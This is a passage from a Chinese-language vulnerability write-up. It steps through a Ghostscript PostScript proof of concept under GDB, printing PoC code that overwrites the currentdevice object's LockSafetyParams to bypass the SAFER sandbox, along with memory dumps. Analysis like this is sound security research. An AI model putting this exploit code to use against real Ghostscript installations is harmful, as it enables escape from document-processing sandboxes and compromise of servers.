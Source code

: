 其通过`buffersearchvars`数组来检索`buffers[N]`(修改项见图片25)字符串后16位是否被`make_false()`修改，进而判断`osp`是否到达可控范围，并通过`buffersearchvars`数组来保存位置。

于POC中`254 le {`后添加`(Overwritten) print`,并将之前添加的`print`语句全部注释掉。重新启动GDB，设置参数见上，`b zprint`设断后，`r`开始运行，成功断下后：

```
gdb-peda$ x /8gx osp-2
0x5555574fc958:    0xffffffffffff0100    0xffffffffffff0000
0x5555574fc968:    0x0000a604ffff127e    0x00005555574f2364
0x5555574fc978:    0x0000000a2f6e127e    0x00005555575de0fb
0x5555574fc988:    0x5245504150200b02    0x0000000000000001
```

如此一来，buffersearchvars[2]设为1，退出`loop`循环。buffersearchvars[3]保存当前检索的buffers[N]，buffersearchvars[4]保存buffersizes[N]-16。

----

POC Part4是修改currentdevice对象属性为string，并保存至`sdevice`数组中，之后再覆盖其LockSafetyParams属性，达到Bypass SAFER。

![图片28 POC(Part4)](https://s1.ax1x.com/2020/04/14/JSxQTx.png)

三个`.eqproc`语句上移osp是因为后面会有`sdevice`、0、`currentdevice`入栈。修改POC如下，便于设断：

```
(before zeqproc) print
.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
(before convert) print
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
(after convert) print
put

buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put

(bypass SAFER) print
```

于`zprint`断下后，查看上移前osp：

```
gdb-peda$ p osp
$1 = (s_ptr) 0x5555574fc968
gdb-peda$ x /10gx osp-3
0x5555574fc938:    0x0000000000000000    0x0000000000000000        //sdevice
0x5555574fc948:    0x0000000000000000    0x0000000000000000        //0
0x5555574fc958:    0xffffffffffff0100    0xffffffffffff0000        //currentdevice
0x5555574fc968:    0x0000000effff127e    0x00005555572d8140
0x5555574fc978:    0x00000001ffff04fe    0x00005555572d6c40
gdb-peda$ hexdump 0x00005555572d8140
0x00005555572d8140 : 62 65 66 6f 72 65 20 7a 65 71 70 72 6f 63 ed 3e   before zeqproc.>
```
